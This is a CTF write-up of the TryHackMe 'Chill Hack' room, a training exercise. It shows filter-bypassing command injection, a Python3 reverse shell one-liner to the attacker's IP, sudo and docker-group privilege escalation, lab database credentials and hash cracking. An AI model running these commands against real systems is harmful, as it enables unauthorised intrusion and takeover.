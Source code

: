 ```yaml
---
title: THM chillhack writeup
description: writeup of chillhack room from Tryhackme
authors: ["shivam"]
slug: chillhack
image: https://tryhackme-images.s3.amazonaws.com/room-icons/897a124df0a70ad86502193b83f46658.png
tags: ["python3", "zip2john", "docker", "mysql"]
---
```


Hello everyone,

Today we are going to solve chillhack from tryhackme. we will learn about python3 reverse shell, ssh port forwarding,zip2john and docker group privilege escalation.

![](https://tryhackme-images.s3.amazonaws.com/room-icons/897a124df0a70ad86502193b83f46658.png)

<!--truncate-->

## Nmap results

```c
Nmap scan report for 10.10.9.151 (10.10.9.151)
Host is up (0.19s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.2.206
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.63 seconds
```

---

## Gobuster results

```c
===============================================================
/.htaccess            (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/css                  (Status: 301) [Size: 308] [--> http://10.10.9.151/css/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.9.151/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.9.151/images/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.9.151/js/]
/secret               (Status: 301) [Size: 311] [--> http://10.10.9.151/secret/]
/server-status        (Status: 403) [Size: 276]
===============================================================
```

---

## FTP

--> Got the file named `notes.txt` in ftp

```bash
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

---

## Enumeration

--> I got this website on port 80

![](Attachments/Pastedimage20211103080502.png)

--> After going to the `secret` directory i found one input and it was asking for command to execute. so i tried to do `id` and i got the results

![](Attachments/Pastedimage20211103080408.png)

--> But it was filtering many commands so after some time i tried to do like `l\s` and it got executed !

and i found 2 files/directories in current directory.

```bash
images index.php
```

--> Now let's read the content of `index.php`

And i found it using command `c\at index.php`

![](Attachments/Pastedimage20211103085318.png)

--> I tried with `bash` `php` and `python` shells but it didn't worked then at last i tried `python3` shell with python3 as `/usr/bin/python3` and it worked and i got the reverse shell !

![](Attachments/Pastedimage20211103090732.png)

==> Python shell :

```bash
export RHOST="10.9.2.206";export RPORT=4444;/usr/bin/python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

---

## User privesc

--> When i done `sudo -l` i found that i can run `helpline.sh` file as a user `apaar`

`(apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh`

--> So let's run it with the command : `sudo -u apaar /home/apaar/.helpline.sh` and enter `/bin/bash` in every field and i got the shell of `apaar` user.

![](Attachments/Pastedimage20211103112428.png)

---

## Anurodh

--> After some searching i found that there are 3 internal ports are running `9001` and `3306` so i done curl on both ports and found one customer portal on port `9001` but i don't know username and password to login.

--> Then i found the mysql password for `root` in `/var/www/files/index.php`

![](Attachments/Pastedimage20211103114825.png)

--> Then i logged in using this creds : `root:!@m+her00+@db`

And after that i got the password for user `anurodh` in `webportal` db.

![](Attachments/Pastedimage20211103114944.png)

```bash
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

After cracking :

`anurodh:masterpassword`

--> Now let's try to login using ssh.

But it didn't worked so let's try to login on port `9001` using this creds.

--> but then i generated new ssh keys and entered the public keys in `autorized_keys` file and also i forwarded the port `9001`

```bash
ssh apaar@10.10.208.94 -i key -L 9001:localhost:9001
```

--> After that i went to the port `9001` and found one login page.

![](Attachments/Pastedimage20211103132815.png)

--> We have the creds which we found in the database so let's login

after login i found this page :

![](Attachments/Pastedimage20211103132915.png)

--> So it says `Look in the dark you will find your answer` but i can't find any dark thing here xD.

so there must be anything with the image so Let's download the image and do some stegno.

```bash
steghide info hacker.jpeg
```

I found one file called `backup.zip` in the image

![](Attachments/Pastedimage20211103133301.png)

let's extract it

```bash
steghide extract -sf hacker.jpeg
```

--> But the file is asking for a passphrase so we have to find the passphrase for the zip file using `zip2john`

```bash
zip2john backup.zip > converted
john --wordlist=/usr/share/wordlists/rockyou.txt converted
```

--> And i found the passphrase `pass1word`

After unzipping the file i got one file called `source_code.php` Let's read this file.

and i got one base64 encoded password in the file

![](Attachments/Pastedimage20211103133603.png)

--> And this password looks of `Anurodh` because of this code

![](Attachments/Pastedimage20211103133654.png)

After decoding the password i got this

`anurodh:!d0ntKn0wmYp@ssw0rd`

--> Let's login on ssh !

and we got ssh shell !

---

## Root

--> When i done `id` then i found that `docker` is a part of our group so i searched for `docker group privilege escalation` and i found this command on `gtfobins`

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

--> and we got root shell !

![](Attachments/Pastedimage20211103133902.png)
